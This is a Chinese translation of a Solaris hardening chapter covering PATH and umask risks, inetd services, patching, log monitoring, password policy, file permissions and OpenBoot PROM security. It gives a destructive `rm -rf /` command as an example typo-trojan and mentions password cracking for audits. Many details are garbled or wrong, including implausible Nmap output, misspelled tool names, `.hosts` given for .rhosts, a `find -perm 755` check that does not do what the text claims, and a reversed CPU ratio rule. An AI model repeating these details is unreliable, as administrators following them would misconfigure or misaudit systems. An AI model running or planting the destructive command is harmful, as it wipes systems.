你还需要考虑更改 `/etc/skeleton/local.profile` 中的默认路径变量。此骨架目录仅在创建账户时使用，因此现有账户应该修改 `$HOME/.profile` 以匹配它。在这里，默认路径是 `/usr/bin:/usr/ucb:.`。末尾的点表示，如果在 `/usr/bin` 或 `/usr/ucb` 中未找到二进制文件，将尝试在当前工作目录中查找。黑客最喜欢的方案之一是创建一个拼写错误的命令木马来执行任意命令。例如，如果黑客获取了 root 家目录的访问权限，他们可以创建一个名为“mroe”的脚本，执行 `rm -rf /` 作为拒绝服务攻击。当超级用户将“more”误打为“mroe”时，该攻击就会触发。对于普通用户来说，这只有稍微不安全，因为任何木马可能只影响单个用户。对于超级用户来说，此类木马可能会对系统造成破坏。

### 安全警报！

以下是能源部使用的简版授权使用横幅示例。在实施之前，你的法律部门应该批准任何授权使用横幅。此特定示例来自 `www.cio.gov/warning.html`：

> 警告 美国联邦政府计算机仅限授权使用。用户对隐私没有显式/隐式的预期。所有文件都会被拦截、监控、记录、复制、审计、检查，并向授权的国内或外国执法官员开放。未经授权或不当使用系统可能导致纪律处分、民/刑事处罚。使用本系统表示您同意这些条件。如果您不同这些条件，请立即注销。

## 介绍 Solaris 安全：评估您的风险 • 第1章

### 评估当前的 Solaris 安全配置

在加固默认 Solaris 安装时，检查运行在网络和本地主机本身上的服务是至关重要的。在主机加固过程中，你的目标始终应该是尽可能禁用大量的非关键服务，因为每个服务或守护进程都会增加系统被破坏的风险。本节将识别默认 Solaris 安装上运行的大的服务，并向你展示如何禁用那些对你的安装可能不必要的服务。

#### 评估网络服务

我们将从网络开始检查默认的 Solaris 系统，使用由 Fyodor 编写的常用端口扫描器 `Nmap`。`Nmap` 可以从 `www.insecure.org/nmap` 免费获取，它可能是功能最全、最广泛使用的端口扫描器。关于 `Nmap` 细节的详细说明超出了本节的范围，感兴趣的读者可以在工具随附的文档中找到。大多数广泛使用的 UNIX 变体（包括 Solaris）都编写了端口。图 1.3 显示了基于 Linux 的主机对默认 Solaris 主机的 `Nmap` 扫描。（从 Solaris 主机进行扫描将产生相同的输出。）

图 1.3 从 Linux 主机对默认 Solaris 主机的 Nmap 扫描



如你所示，Solaris 默认包含大量的开放端口和可用网络服务，其中许多可以被禁用以增强系统安全性。大多数这些守护进程从 `/etc/inetd` 运行，可以通过注释掉 `/etc/inetd` 中相应的部分来禁用。除非你对它们有明确需求，否则可以禁用以下服务而不对系统产生影响：

- Echo
- Discard
- Daytime
- Charger
- Finger
- Login（大部分是 exec 和 shell 的重复）
- Printer
- UUCP

在 `/etc/inetd.conf` 中注释掉这些服务后，不要忘记重启 `inetd` 进程。一旦禁用了这些服务，你就可以运行额外的 `Nmap` 扫描来查看还剩下哪些服务（见图 1.4）。

### 图 1.4 查看还剩下哪些服务的 Nmap 扫描

```
$# nmap spooky
Starting nmap 7.25 by FyByNSec.org ( https://www.nmap.org/nmap/ )
Target: 1 host (1 up)
20 ports scanned but not shown below are in state closed
Port     State    Service
21/tcp open    ftp
22/tcp open    ssh
25/tcp open    smtp
53/tcp open    dns
111/tcp open    rpcbindd
139/tcp open    netbios-session
443/tcp open    https
514/tcp open    shell
631/tcp open    domain
8172/tcp open    -service
8075/tcp open    smtp-pc13
8076/tcp open    smtp-pc15
8077/tcp open    smtp-pc17
8078/tcp open    smtp-pc19
8079/tcp open    smtp
```


# 第 1 章 · 介绍 Solaris 安全：评估您的风险

从列表顶部开始，我们可以看到许多未使用时可以关闭的进程和守护进程（daemon）。表 1.2 了根据此 `ps` 输出运行的服务、这些服务属于哪些进程和 ID，以及在需要时如何禁用它们。

## 表 1.2 服务 PID、进程和锁定程序

| 服务 | PID | 进程 | 锁定程序 |
| --- | --- | --- | --- |
| 网络文件系统 (NFS) | 137 135 | locked (NFS 锁守护进程) deathed | 通过在 `/etc/rc*` 中取消与 `nfs.server` 和 `nfs.client` 的链接来禁用 NFS。 |
| 远程过程调用 (RPC) | 106 | Rpcbind | RPC 由 Sun 开发，用于进程之间（通常跨越网络）的某种数据交换。它也是黑客进行缓冲区溢出攻击的首选目标。NFS 需要 RPC，且如果它未运行，可能会导致 `openwin` 启动。要禁用 RPC 服务，请从 `/etc/inetd.conf` 中注释掉它们，并取消 `/etc/rc*` 中 `/etc/init.d/rpc` 的链接。 |
| 简单网络管理协议 (SNMP) | 226 237 | Snmpd SnmpXdmid | 如果不需要 snmp，请在 `/etc/rc*` 中取消 `/etc/init.d.snmp` 和 `/etc/etc/init.d.drmi` 的链接。 |
| Inetd | 130 | Inetd | inetd 中的许多服务（如 finger 和 charger）存在不必要的安全风险。这些服务应该在 `/etc/inetd.conf` 中被注释。 |
| Sendmail | 212 | Sendmail | Sendmail 极有可能是 Solaris 上可用最不安全的守护进程。如果配置不当，运行 Sendmail 将使您的系统面临溢出攻击和垃圾邮件发送者的滥用。如果您运行 Sendmail 且你的服务器不是主要的邮件服务器，考虑通过 `cron` 定期运行 `sendmail`，而不是以守护模式运行。至少，要配置 Sendmail 以非 root 用户身份运行。 |


# 介绍 Solaris 安全：评估您的风险 • 第 1 章

## 破坏与防御

## 应用安全补丁

安全补丁是 Solaris 系统的关键防御。由于 Sun 会持续发布更新的安全补丁，系统管理员需要持续警惕，以确保所有系统都已安装所有关键安全补丁。本侧栏专门介绍补丁管理系统的工作原理，并教您如何查找 Sun 的安全更新。

可以通过执行命令 `showrev -p` 来确定当前的补丁修订级别，对于默认安装，将返回“No patches installed”。在可能的情况下，系统在连接到互联网之前需要使用最新的 Sun 推荐安全补丁进行打补。理想情况下，您在另一个（已打补丁的）系统上下载补丁，然后通过任何可用的安全手段将其传输到新系统。

补丁可以通过 Solaris 分发中心获取，该中心位于 http://www.sunsolve.com。要下载最新的 Sun 推荐安全补丁，请访问 http://www.sunsolve.com/pub-cgi/show.pl?target=patches/patch-license&nav=pub-patches 并接受许可协议。后续页面将列出 Solaris 操作系统所有版本和架构的下载内容；选择与要打补丁系统匹配的项。

一旦下载了补丁簇（cluster），使用任何可用的安全传输手段将其传输到未补丁的服务器，并使用 `unzip` 命令解压补丁簇。进入与补丁簇同名的目录并在 root 下执行 `install_cluster` 脚本。您下载的补丁簇现在将自动安装。处理过程至少需要两个小时，建议在应用补丁簇期间让系统处于空闲状态。注意，不要在 `/var` 分区没有足够可用磁盘空间的系统上使用补丁簇。处理过程结束后，`showrev -p` 命令应显示应用到系统的所有补丁。

如有必要，也可以单独应用补丁。使用 http://sunsolve.sun.com/pub-cgi/showpl?target=patches/patch-access 上的 Sunsolve patchfinder 通过补丁 ID 搜索单个补丁。单个补丁应保存到 `/var/spool/patch` 目录下，并可以使用 `patchadd` 命令进行安装。只要 `/var` 分区有足够的磁盘空间创建备份文件，任何单个补丁都可以卸载。使用 `patch` 命令卸载补丁。

# 第 1 章 · 介绍 Solaris 安全：评估您的风险

## 监控 Solaris 系统

监控 Solaris 系统是绝对关重要的，因为除非你密切关注，否则你永远不知道其中一个系统是否被破解。当然，监控是一种有益的管理实践，其意义超出了安全方面。例如，适当的监控可以识别出其他手段忽略的性能瓶颈，特别是当这些瓶颈是周期性的而非持续性的时。系统性能和消息日志输出是监控的关键领域。除了检查安全相关的日志文件外，本节还致力于使用操作系统提供的默认工具检查系统性能。然而，如果您发现默认工具不足以监控服务器的历史系统性能，您可能会对我自己的源码监控工具 MRTG-PME 感兴趣，它将在第 3 章中讨论。

## 使用 sdtprocess 和 sdtmeter

即使是 Solaris 的默认安装，也有许多鲜为人知的应用程序。最用的可能是 Process Manager 和 Performance Meter。虽然我们不会尝试进行逐步说明，但本节将向您介绍这些工具。

Sun 的 Process Manager 大约是 `ps` 命令的图形化等效物，为不熟悉命令行切换的用户设计。Process Manager 不默认路径中，因此您需要直接从 `/usr/dt/bin/sdtprocess` 启动它。您可以轻松地对系统进程进行排序，并按字符串进行过滤（相当于 `ps -ef`）。1.6 展示了 root 身份过滤的进程。

# 介绍 Solaris 安全：评估您的风险 • 第 1 章

## 图 1.6 root 身份过滤的 Process Manager


可以使用 Process Manager 的日志功能对当前进程列表拍摄快照并保存以备后用。要从 Process Manager 记录数据，从 **Sample | Start** 和 **Sample | Stop** 下方的菜单中选择 **Sample | Save As**。历史性能数据可能是无的，无论其来源是 ps 的输出还是 Process Manager 的日志文件。许多入侵会导致异常进程运行，这些进程在您的系统上不会运行。如果入侵者没有通过安装木马二进制文件来掩盖踪迹，您可以将入侵者正在采取的操作进程与历史进程列表进行比较，以确定情况。这种方法在某种程度上也可以用于排查故障应用程序。通过缩小采样窗口大小并在应用程序故障期间记录进程，您可以发现可能有助于解释应用程序为何故障的线索。

Solaris 自带的另一个有用监控工具是 Performance Meter，它可以通过执行 `/usr/dt/bin/sdpfmeter` 来。您可能在 CDE 中熟悉此应用程序，因为它在前面板上记录 CPU 和磁盘活动。您可能不知道的是，Performance Meter 不仅限于 CPU 和磁盘活动；它还可以显示负载、分页、上下文切换、箱交换以及网络活动（如中断、冲突、数据包吞吐量和错误）。在配置方面没有太多可以更改的，您能更改的就是显示器使用的颜色和阈值。


颜色在此发生变化。然而，性能仪表（Performance Meter）还包含一个记录功能，其记录的内容比进程管理器（Process Manager）多得多，这对于前述理由非常有用。图 1.7 是性能仪表监控 CPU 活动、数据包吞吐量和内存分页的示例。

## 图 1.7 性能仪表监控 CPU 活动、数据包吞吐量和内存分页



## 监控 Solaris 日志

Solaris 管理员安全工具箱中最重要的是系统日志文件，特别是那些记录系统访问的日志。这些日志对于尚未获取超级用户权限的入侵者的系统使用情况具有无价价值。然而，一旦入侵者获得了系统的超级用户权限，你就无法再信任这些日志了，因为入侵者可能已经修改了它们以掩盖踪迹。缺乏经验的黑客不知道如何掩盖踪迹，可能会删除这些日志。由于这些原因，我们将简要讨论如何验证这些日志文件的完整性。

## 监控访问日志


# 第 1 章 · 介绍 Solaris 安全：评估您的风险

Solaris 可以记录多达三种类型的系统访问，但默认情况下只有两种是可用的。通常，想要检查系统登录的系统管理员会使用 `who` 或 `last` 命令。`last` 命令将列出系统中所有账户的所有系统访问情况、访问时间和访问点，并列出重启记录。`who` 命令也类似，但它只会列出当前登录系统的用户以及他们的来源和登录时间。`last` 和 `who` 的两个日志文件都是二进制日志（与 ASCII 相反）。它们分别是 `/var/adm/wtmpx` 和 `/var/adm/utmpx`。


## 介绍 Solaris 安全：评估您的风险 · 第 1 章

Solaris 也可以记录失败的登录，但此功能默认未启用。通过通过记录失败的登录尝试，创建文件 `/var/adm/loginlog`。确保用户 `root` 和组 `sys` 拥有该文件，并将权限更改为 600。然后重启 syslog 守护进程。每当一个账户接收到一次或多次失败时，您的 Solaris 系统将开始记录失败的登录尝试。

## 监控 sulog

记录用户账户活动和失败的登录尝试可能帮助您在攻击早期发现入侵者，但您想要查看的日志文件是 `/var/adm/sulog`。该日志跟踪任何人尝试使用 `su` 命令的成功和失败，以及他们尝试 `su` 哪些账户。良好的安全实践包括运行定期的 cron 任务，通知管理员任何非管理账户尝试使用 `su` 变成超级用户。更好的做法是限制 `su` 的访问，仅限 sysadmin 组（GID=14）中的账户。请注意，只有当您的用户没有合法需求使用该命令变成另一个用户（可能不包括 root）时，第二种方法才有效。例如，您的某位 DBA 可能需要 `su` 到 `oracle` 用户的权限。

## 验证系统日志

如果未经授权的人员访问 root 账户会发生什么？在这种情况下还能信任日志吗？嗯，默认情况下它们不能。使用默认的 Solaris 工具，你所做的最好就是配置一个集中的加固 syslog 服务器，为你所有的关键 Solaris 系统提供远程日志记录。只要 syslog 服务器不被破解，你通常可以信任它的日志。

然而，使用中央 syslog 服务器充其量是一个不完整的解决方案。一旦入侵者获得了 root 权限，他们可以轻松停止日志守护进程。或者，由于 syslog 使用 UDP 协议，入侵者可以利用数据包淹没日志主机作为拒绝服务攻击，从而掩盖他的其他攻击。

更优的解决方案是设置一个系统完整性监控器，例如 Tripwire，它会对您的日志文件的校验和进行定期检查，可能还会结合日志轮转。这将让你知道日志文件是否被修改，因为它的校验和会改变。尽量避免使用 CRC 或 CRC-32 作为校验和算法的完整性监控器，因为这些低技术算法可以很容易被欺骗。像消息摘要 5 `MD5` 哈希之类的校验和算法被绕过的概率要小得多。


## 第 1 章 · 介绍 Solaris 安全：评估您的风险

## 解密 `/var/adm/messages` 信息

登录信息只是 Solaris 系统记录的信息的一部分。关于系统健康整体状况和其他安全问题的通用信息通常可以在 `/var/adm/messages` 中找到。手动或通过 `logcheck` 程序监控此文件是有益的，因为它为许多常见问题提供了预警。例如，发生故障的磁盘驱动器通常会在驱动器完全损坏前几周就注明某些磁盘扇区无法读取。

## 测试安全性

从角度来看，或许最需要关注的领域是密码的选择和文件访问权限。并不是每个入侵者的目标都是获取您的 Solaris 系统的 root 权限；有些人可能是信息窃取者，试图从贵公司窃取专有数据。数据窃取通常可以通过获取某些用户账户的访问权限来实现。公司内部机密但在公司内可见的信息仅受最弱用户密码的保护。

当然，有时通常值得信赖的用户也会滥用您的 Solaris 系统。那些梦幻着偷取贵公司专有信息的员工，在尝试访问您的人资源部门时可能不会加考虑。本节专门帮助您测试 Solaris 系统的安全性。

## 测试密码

密码安全可以细分为两个领域：用户责任和管理员责任。用户的责任是选择一个容易记忆但难以猜测的密码，而管理员责任包括强制定期更改密码。我们将讨论选择的一些指南以及管理策略的一些选项。表 1.3 总结了用户选择的指南。

### 表 1.3 用户选择指南

| 优秀的密码选择 | 糟糕的密码选择 |
| :--- | :--- |
| 使用至少 8 个字符。 | 使用 6 个字符或更少。 |
| 使用大小写字母、数字和符号组合。 | 使用用户或家庭成员的名字、生日或电话号码。 |
| 使用常用词的不常见拼写。 | 基于英语或任何常用语言的字典词。 |
| 使用嵌入单词，如针对饮料使用“diCOLA”。 | 使用流行文化引用，如剧演员或角色的名字。 |
| 使用交错单词，如针对饮料使用“DcioEla”。 | 使用发布的密码示例，如本表中的任何密码。 |

由于 Solaris 默认使用影子密码，Solaris 系统管理员有很多可用选项用于密码策略。以下行是 `/etc/shadow` 条目的一个示例，随后是 `/etc/shadow` 文件的列表：

```
scarter:TacRZASPq02:11541:::::
```

`username:password:lastch:min:max:inactive:expire:`

默认情况下，Solaris 跟踪更改密码的时间，从 1970 年 1 月 1 日到最后更改密码的日期。最用于密码管理的命令是 `passwordadd` 和 `usermod`。表 1.4 描述了示例使用的字段以及常用命令操作这些字段的开关。

### 表 1.4 常用命令操作未使用字段的开关

| 字段 | Passwd Switch | Useradd Switch | Usermod Switch | 描述 |
| :--- | :--- | :--- | :--- | :--- |
| min | `-n` | N/A | N/A | 更改密码所需的最小天数。防止用户立即将密码改回旧密码。 |

# 第 1 章 · 简介 Solaris 安全：评估您的风险

### 表 1.4 续

| 字段 | Passwd 选项 | Useradd 选项 | Usermod 选项 | 说明 |
|---|---|---|---|---|
| max | `-x` | N/A | N/A | 密码有效的最大天数。超过此日期必须更改密码，否则账户将被锁定。 |
| warn | `-w` | N/A | N/A | 密码过期前多少天用户会收到密码过期的警告。 |
| Inactive | N/A | `-f` | `-f` | 账户在自动锁定之前可以保持不使用的天数。 |
| Expire | N/A | `-e` | `-e` | 无论账户是否使用，账户自动锁定的绝对日期。 |

最后说明一点，您可能还希望定期使用如 John Ripper 等密码破解程序（从 `www.openwall.com/john/` 获取）来对您的用户的密码进行审计。对于敏感组织而言，通过账户审计发现的破解密码通常会导致纪律处分。因此，在使用 John Ripper 或任何类似的黑客工具（如 `dsniff`）之前，请务必确保您已获得相关授权。否则，您可能成为面临纪律处分的人。

## 测试文件权限

执行适当的程序可以防止他人访问您的用户账户，但并不一定能防止他们访问文件。用户可能没有意识到访问模式大于755是危险的。这些文件可能被利用来欺骗用户运行木马程序，或者在用户的主目录中写入 `.hosts` 文件。如果您的 Solaris 系统使用任何伯利命令（`rsh`, `rexec`, `login`），那么另一个用户就可以利用 `.hosts` 文件（或其他文件）的不当权限来获取原始用户登录的权限。您应该考虑定期检查所有数据文件和主目录的访问模式。使用命令 `find /export/home -perm 755 -print` 可以轻松识别出不当的访问模式，该命令将列出任何权限比 755 宽松的文件。


## 防范物理检查

如果您所在地点的物理安全措施松散，可以想象未经授权的人员可能会获得您 Solaris 系统的物理访问权限。对于一个拥有物理访问 Solaris 服务器但没有安全的可编程只读存储器 `PROM` 的入侵者来说，获取 root 权限仅之遥。毕竟，他们只需要从 CD 启动到单用户模式并更改超级用户账户的密码，或者添加一个新的等同于超级用户的账户。幸运的是，SPARC 机器上的 OpenBoot PROM 包含某些功能，使得未经授权个人很难访问系统，但当攻击者长时间拥有物理权限时，系统仍可能被黑入。

即使受保护的 OpenBoot PROM 也无法阻止他人打开您的服务器机箱（必要时使用钢锯和撬棍）并移除磁盘驱动器。一旦移除磁盘驱动器，就可以将其挂载到另一个系统中进行数据盗取或其他滥用。因此，您所在地点的物理安全性应该足够足以以威慑强行打开并移除您的服务器。

## 保护 OpenBoot


与大多数 PC BIOS 一样，您可以指定需要密码才能访问 OpenBoot PROM 中的部分或全部配置功能。访问受限于表 1.5 中标识的安全模式。

### 表 1.5 访问 OpenBoot PROM 配置功能的安全模式

| 安全模式 |  |
| --- | --- |
| None (无) | 这是默认模式，在任何方面都不对 PROM 操作进行访问限制。 |
| Command (命令) | `boot` 和 `go` 命令不受限，但仅限于从默认分区启动。所有其他访问都需要密码。 |
| Full (全权限) | 仅 `go` 命令不受限。所有其他访问都需要密码。 |

要设置安全模式，请使用 `eeprom` 命令：`eeprom security-mode=MODE`，其中 `MODE` 既不是 `none`、不是 `command` 也不是 `full`。一旦设置了模式，可以使用 `eeprom security-password` 命令设置 OpenBoot 密码。

www.syngress.com

最后，您可以使用 `eeprom` 命令设置一个类似于操作系统横幅的横幅，其中 `BANNER` 命令 `eeprom oem-banner=BANNER` 是一个文本字符串（带引号）。然后，使用命令 `eeprom oem-banner?=true` 来启用该横幅。

## 编写安全程序和配置文档

文档记录是安全以及整个系统管理中较容易被忽视的方面之一。理想情况下，文档应该提供一条纸质轨迹，解释系统配置、补丁级别等，使得信息可以被对组织布局了解或完全不了解的人轻松吸收。然而，这种理想可能有些不切实际，通常只需以此方式记录安全程序和配置，让您小组中其他熟悉布局的人能够理解它们即可。

请记住，文档的主要目标始终是减少因意外情况给组织带来的损失，例如资深 Solaris 管理员的突然流失。如果需要重建服务器，文档还将帮助服务器恢复到功能状态。如果您的组织有大量的 Solaris 服务器，其中任何一台都可能存在独特的配置，如果没有适当的文档，就不记住每台机器配置的具体细节。基于此，本节将讨论您可以用于记录组织环境的一些方法。

## 编写安全程序

编写安全程序与记录在 Solaris 系统上执行的行政工作非常相似。具体需要记录的内容以及文档的粒度可能取决于特定站点，但至少您的系统文档应包含以下内容：

- 系统的完全限定域名 (FQDN)
- 投入使用的日期
- 管理联系人信息——最好至少两个联系人
- 基础系统硬件信息，如 CPU 数量和物理内存数额
- 系统提供的功能，如邮件服务、DHCP 服务等
- 系统变更日志


理想情况下，当系统发生更改时，它们应列在变更日志中，条目应更改日期、操作者以及关于更改的简要细节。这样，如果您发现系统有任何未记录在系统日志中的更改，您就可以开始调查以确定更改的来源。

实施此类管理实践的一种方案是将上述所有信息跟踪在单个手动编辑的文件 `/var/adm/hostname-journal` 中，如图 1.8 所示的示例日志。为了简单起见，您也可以将此文件软链接为 `/var/adm/journal`，这样在检查管理日志时只需记住主机名。此文件也应该频繁备份。

日志文件可能包含敏感信息，请确保只有管理员可以访问该文件。它应该由 `root` 用户和 `sysadmin` 组拥有，访问模式为 660。您可能还会考虑使用 `pgp` 或 `gpg` 对此文件进行加密，以防 `root` 账户或任何 `sysadmin` 账户遭到破解导致未经授权获取信息。

### 图 1.8 示例日志

```
## /var/adm/journal/var/adm/sample_journal
# 2002年8月25日12:58:22 added/journal 7 sample_journal
# 2002年8月25日14:10:02 added/journal 7 sample_journal
System Name: syngress-traveler.com
OS Version: 8.5.0-2
Admin Contact: syngress-traveler.com
变更日志项:
2002-06-30 10:36:10 密码过期导致账户锁定
2002-07-04 18:27:11 为用户 1001 创建账户
2002-07-15 22:13:52 为账户（部门转移）添加账户
2002-07-15 22:13:52 为 root 创建账户（本地公司）
2002-07-24 10:24:02 添加了只读 Samba 共享 /home/user/plugins/ 用于摄像头服务
2002-08-02 19:18:13 由 root 添加了新的 DNS 服务器 der-v023 172.18.0.19
```

第 1 章 · Solaris 安全导论：评估您的风险

## 系统配置记录

Solaris 系统出现异常活动的一些明显迹象是资源利用率突然且无法解释的增加。例如，如果入侵者试图编译额外的黑客工具，那么在该过程期间，编译器的使用将大幅增加 CPU 利用率。如果这些工具非常复杂，根据漏洞评估工具 Nessus 的判断，编译持续时间可能会长到需要调查的程度。显然，并非所有资源利用的增加都是系统入侵者导致的，但它们可能仍然值得调查。

在调查资源利用率异常峰值时，拥有用于比较的基准数据非常重要。您的基准数据也应该具有一定的动态性，也就是说，今天 Solaris 系统上发生的情况可能与一两年前系统的情况有所不同。应该根据您所在环境的实际定期重新采集基准数据，特别是当系统通过添加其他网络服务而承担扩展功能时。

## 磁盘使用信息记录

可用空间是 Solaris 系统上的一项重要资产。入侵者可能试图通过将您的 Solaris 系统变成分发盗版音乐和软件的服务器来用您的资源。您的组织不仅对这种未经授权的分发负责，而且还会给您的组织带来损失：带宽不是免费的，一旦入侵者分发了指向您服务器的连接，服务器的带宽可能会被限制，从而阻止您的员工和合作伙伴访问系统进行生产使用。

攻击者可能会通过填充您的可用磁盘空间作为拒绝服务的攻击手段。例如，某些入侵者可能尝试通过向您的 `/var` 文件系统填充虚假信息来掩盖踪迹。一旦 `/var` 变满，就无法再写入更多日志，攻击者可以随心所欲，而不必担心其攻击被记录。出于由于这些原因，监控每个服务器文件系统的使用情况至关重要。

您跟踪磁盘容量的主要工具是 `df` 命令，它正是为这一目的而设计的。默认情况下，`df` 命令将列出所有挂载文件系统的可用、已用和总块。由于由于原因，`-k` 选项通常与 `df` 命令配合使用，以千字节（KB）而不是块显示可用、已用和总空间。如果您对特定的文件系统感兴趣，也可以在命令中指定该文件系统。例如，


命令 `df -k /var` 将以千字节为单位显示 `/var` 文件系统的可用、已用和总磁盘空间。

## 使用 vmstat 系统信息

用于收集资源信息最有价值的工具可能是 `vmstat`。事实上，您更有可能使用 `vmstat sdtprocess`（在本章前面已讨论）来收集资源利用率，因为 `vmstat`（结合 `awk`）非常适合数据采集脚本。本节将通过识别其收集的重要指标，作为使用 `vmstat` 进行性能分析的简要介绍。通常调用 `vmstat` 时带有两个参数，第一个是秒数，第二个是采集的次数。如果省略了第二个参数，数据采集将无限运行。图 1.9 给出了每隔 5 秒采集一次的 20 个样本的 `vmstat` 输出。

## 图 1.9 vmstat 输出示例



从一眼看去，您可能会注意到第一行数字与所有其他采集的数据显著不同。这是因为初始行是自启动以来每个指标的平均值；除非您的系统运行时间很长（超过 30 天），否则通常应该忽略它。

CPU 负载必须通过检查利用率和进程队列来确定。输出的最后三列提供了 CPU 利用率的信息，其中“us”指用户进程，“sy”指系统进程，“id”表示空闲 CPU 功率。这三列之和将始终等于 100 百比。对于这些数字，一个良好的经验法是：系统进程和用户态进程之间保持 3:1 的比例是理想的。例如，在很长时间间隔内，60% 的用户、20% 的系统和20% 的空闲将是这些指标可以接受的平均值。请注意，您的 CPU 可能会持续在非常高的水平运行，但不会影响系统性能。只要进程队列（在第一列中）为零，您的处理器就不会过载。如果运行队列中存在持续的进程，那么您的处理器可能就是瓶颈。从我们的示例输出中，可以看到系统在 CPU 负载方面的运行符合预期参数。


诊断内存负载需要来自空闲列表、交换空间和分页的信息。其中最重要的是空闲列表的大小，它指示了系统可用的 RAM 数量。空闲列表在 `free` 列出；对于我们的示例系统，它约为 208 MB。请注意，某些应用程序（如 Oracle）可能会在实际使用之前分配大块 RAM，因此您不能依靠空闲列表的大小来确定内存状态。因此，您还需要检查 `swap` 列中的交换情况以及分页指标，其中 `pi` 表示页入，`po` 表示页出。示例服务器有约 700 MB 的可用交换空间，偶尔页入且似乎不页出，这表明性能尚可。（同时，交换空间过少和系统页入页出过多会导致性能不佳。）请注意，`w` 列中出现非零值表示已交换到磁盘的进程并不常见。

我们在这里仅接触了性能分析的表面。使用上述工具和技术对于观察入侵者引起的活动应该是足够的，但有关 `vmstat` 和性能监控的更多详细信息，请参考手册页。

# Solaris 安全导论：评估您的风险 第 1 章

## 总结

本章的目标是向您介绍良好的安全实践，并引导您从“安全第一”的心态开始思考，因为如果您的系统不安全，您的业务也不安全。在加固 Solaris 方面我们也涵盖了大量内容。

通过指出 `umask` 允许任何用户读取其他用户的文件，我们暴露了 Solaris 默认的安全水平。为了让用户遵守规则，我们研究了在适当位置显示授权公告。我们对 Solaris 安全配置的评估表明明文协议极不安全。为了应对外部网络攻击，我们还学习了关闭不必要的守护进程（如 `finger` 和 `charg`），并将某些程序（如 `Sendmail`）降级为低权限运行。

监控我们的系统安全教会了我们检查访问日志和 `sulog` 以寻找初步入侵系统的迹象。我们引入了图形界面监控工具，如 `sdtprinter` 和 `sdtprocess`。失败登录现在应该记录在 `/var/admin/loginlog` 中。我们的 Solaris 系统安全测试是通过告知用户选择强密码，然后使用密码破解程序对 `/etc/shadow` 文件进行测试，以找出用户任何糟糕的密码选择。我们还查看了使用 `find` 命令跟踪不安全的文件权限。

最后，我们学习了如何通过命令行工具定期拍摄系统性能快照来记录 Solaris 系统。我们还学习了如何以这种方式记录和跟踪系统更改，从而可以很容易识别出未经授权的更改。

## 解决方案快速通道

### 暴露默认的 Solaris 安全级别

- 考虑将 `/etc/profile` 中的 `umask` 从默认值 `022` 更改为更具限制性的值，例如 `027`。
- 通过将 `/etc/passwd` 中的所有条目添加到 `/etc/ftpusers` 来禁用所有用户的 FTP 访问。根据具体情况通过从 `/etc/ftpusers` 中删除条目来恢复访问权限。
- 将不安全的明文守护进程（daemons，如 FTP、Telnet 和 Berkeley r-commands）替换为安全的替代品（如 `SSH` 或 `OpenSSH`）。
- 在 `/etc/motd` 和 `/etc/issue` 中创建授权使用横幅（Authorized Use banners）。

### 评估当前的 Solaris 安全配置

- 检查并禁用任何不网络服务，如 `finger` 和 `echo`。
- 某些系统守护进程（如 `Sendmail`）运行权限高于所需的。重新配置这些进程以非 root 用户的较低权限运行。

### 监控 Solaris 系统

- 两个优秀的 GUI 监控工具是 `sdtprocess` 和 `sdtpermeter`。
- 通过创建 `/var/adm/login` 日志文件记录失败的登录尝试。
- 使用 `who` 和 `last` 命令监控谁正在登录系统。
- 通过跟踪 `/var/adm/sulog` 中对 `su` 命令的访问，找出谁在使用 root 账户。

### 测试安全性

- 指导用户如何选择安全的密码。
- 定期通过使用破解程序尝试解密，来审计用户的密码选择。
- 监控系统是否存在异常的世界可写文件（world-writable files），并将它们的访问模式更改为更具限制性的值（至少为 `775`，最好为 `644`）。

### 防止物理检查

- 更改 OpenBoot PROM 中的安全模式，以防止系统从未经授权的介质启动。
- 设置密码以限制对 OpenBoot 配置的访问。
- 设置 `oem-banner` 以显示与 `/etc/issue` 和 `/etc/motd` 类似的授权使用横幅。

### 记录安全程序和配置

- 创建一个管理日志（例如 `/var/adm/hostname.journal`），记录对系统所做的管理更改以及硬件配置等系统信息。
- 使用 `df` 命令定期对空磁盘空间进行快照。
- 使用 `vmstat` 命令定期对 CPU 和内存利用率指标进行快照。


## 常见问题

以下常见问题由本书的作者回答，旨在衡量您对本章所介绍概念的理解程度，并帮助您在现实生活中实施这些概念。如果您想让作者回答关于本章的问题，请访问 www.synergy.com/solutions 并点击“提问作者”（Ask the Author）表单。

Q: 为什么我有必要加固我的 Solaris 系统？我没有任何任何人想要偷取的数据。

A 并不是所有的系统破解都是为了偷取，许多黑客根本不在乎你的系统除了互联网连接之外的细节。某些攻击者想要窃取你的带宽来分发盗版音乐和软件，而另一些人只是想给他们的朋友留印象。如果你的系统连接到互联网，它们就会受到攻击；这只是时间问题。这些攻击大部分可能来自缺乏经验的攻击者，如果你的系统保持更新 Sun 的安全补丁，这些攻击很容易被避免。

Q: 将文件或目录的访问模式设置为 777 有什么问题吗？每个人都需要访问这个文件或目录，这对于我们的设置来说是一个可行的解决方案。

